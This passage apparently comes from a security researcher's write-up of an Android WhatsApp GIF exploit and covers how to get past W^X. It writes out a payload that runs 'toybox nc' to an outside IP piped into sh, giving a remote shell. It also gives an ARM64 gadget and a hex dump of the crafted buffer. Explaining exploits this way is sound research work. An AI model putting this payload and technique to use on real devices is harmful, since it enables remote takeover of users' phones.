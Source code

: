 ## Deal with ASLR and W^X
After controlling the PC, we want to achieve remote code execution. In Android, we can not execute code on non-executable regions due to W^X (i.e. stack and heap). The easiest way to deal with W^X in our case is to execute the below command:
```
system("toybox nc 192.168.2.72 4444 | sh");
```
For that, we need PC to point to `system()` function in libc.so and X0 to point to `"toybox nc 192.168.2.72 4444 | sh"`.
This cannot be done directly. We need to first let PC jumps to an intermediate gadget, which sets X0 to point to `"toybox nc 192.168.2.72 4444 | sh"` and jump to `system()`.
From the disassembly code around `info->rewindFunction(info);`, we can see that both X0 and X19 point to `info->rasterBits` (or `info`, because they both point to the same location), while X8 is actually `info->rewindFunction`.

<div class="row">
  <div class="col-xs-12 col-md-10 col-md-offset-1">
    <br/>
    <img class="img-thumbnail img-responsive img-center" src="/assets/img/whatsapp1.png" style="max-width:90%"/>
  </div>
</div>

{:.content-center}

Disassembly around `info->rewindFunction`

There is a gadget in libhwui.so that perfectly satisfies our purpose:
```
ldr x8, [x19, #0x18]
add x0, x19, #0x20
blr x8
```
Let say the address of the above gadget is AAAAAAAA and the address of system() function is BBBBBBBB. The rasterBits buffer (frame 1) before LZW encoding look as below:
```
00000000: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000010: 0000 0000 0000 0000 4242 4242 4242 4242  ........BBBBBBBB
00000020: 746f 7962 6f78 206e 6320 3139 322e 3136  toybox nc 192.16
00000030: 382e 322e 3732 2034 3434 3420 7c20 7368  8.2.72 4444 | sh
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000080: 4141 4141 4141 4141 eeff                 AAAAAAAA..
```